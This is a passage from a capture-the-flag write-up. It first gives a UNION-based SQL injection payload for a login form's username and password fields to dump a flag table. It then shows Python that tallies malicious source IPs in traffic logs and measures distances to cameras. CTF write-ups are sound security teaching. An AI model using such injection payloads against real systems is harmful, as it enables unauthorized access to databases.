 We could use a `UNION` based injection to dump the database and get the flag.

`username=test' or 1 UNION SELECT *, null from flag-- -&password=test' or 1 UNION SELECT *, null from flag-- -`

### Find the Malicious Attacks by Revo Force

We were given CSV files containing network traffic data, as well as a shapefile containing cameras in Singapore. We are tasked to find where most of the attacks are originating from, and the number of cameras within a 1.3km radius.

First, we obtain the most common `src_ip`, and find its corresponding latitude and longitude.

```python
import os, csv

SRC_IP_COL = 9
LABEL_COL = 14

files = [x for x in os.listdir() if x.endswith('.csv')]
results = {}

for file in files:
    with open(file, newline='') as csvfile:
        reader = csv.reader(csvfile, delimiter=',', quotechar='"')
        for row in reader:
            src_ip, label = row[SRC_IP_COL], row[LABEL_COL]
            # print(src_ip, label)

            if label == 'malicious':
                print(file)
                if src_ip in results:
                    results[src_ip] += 1
                else:
                    results[src_ip] = 1

print(results)
print(max(results.items(), key=lambda x: x[1]))
```

After, we can parse the shapefile using geopandas, and use the [haversine formula](https://en.wikipedia.org/wiki/Haversine\_formula) to determine the  great-circle distance between each camera and the `src_ip` location based on the latitude and longitudes.

```python
import geopandas as gpd
from math import radians, cos, sin, asin, sqrt


def haversine(lon1, lat1, lon2, lat2):
    """
    Calculate the great circle distance between two points 
    on the earth (specified in decimal degrees)
    """
    # convert decimal degrees to radians 
    lon1, lat1, lon2, lat2 = map(radians, [lon1, lat1, lon2, lat2])

    # haversine formula 
    dlon = lon2 - lon1 
    dlat = lat2 - lat1 
    a = sin(dlat/2)**2 + cos(lat1) * cos(lat2) * sin(dlon/2)**2
    c = 2 * asin(sqrt(a)) 
    r = 6371 # Radius of earth in kilometers. Use 3956 for miles
    return c * r


LAT = 1.327187
```
